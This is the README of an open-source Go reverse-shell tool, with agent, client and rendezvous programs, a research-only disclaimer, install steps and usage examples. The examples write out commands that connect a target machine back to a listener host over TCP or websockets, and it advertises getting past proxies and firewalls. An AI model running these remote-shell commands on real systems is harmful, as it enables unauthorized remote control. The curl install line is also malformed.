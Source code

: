 ## A simple reverse-shell written in Go

[![Build Status](https://travis-ci.org/maxlaverse/reverse-shell.svg?branch=master)](https://travis-ci.org/maxlaverse/reverse-shell)
[![Code Coverage](https://codecov.io/gh/maxlaverse/reverse-shell/branch/master/graph/badge.svg)](https://codecov.io/gh/maxlaverse/reverse-shell)


**Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

---

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `client` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and clients meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Example of usage
Direct, with TCP:
```bash
# On the client (1.2.3.4)
$ nc 1.2.3.4 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777
```

Direct with Websockets:
```bash
# On the client (1.2.3.4)
$ reverse-shell-client listen --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777
```

With a rendezvous:
```bash
# On the rendezvous (1.2.3.4)
$  reverse-shell-rendezvous --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777

# On the client
$ reverse-shell-client rendezvous list-agents --url=http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ reverse-shell-client rendezvous create-session --url=http://1.2.3.4:7777 3.4.5.6:65000
```

The complete usage is available for each component:
- [agent](docs/agent/reverse-shell-agent.md)
- [client](docs/client/reverse-shell-client.md)
- [rendezvous](docs/rendezvous/reverse-shell-rendezvous.md)

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
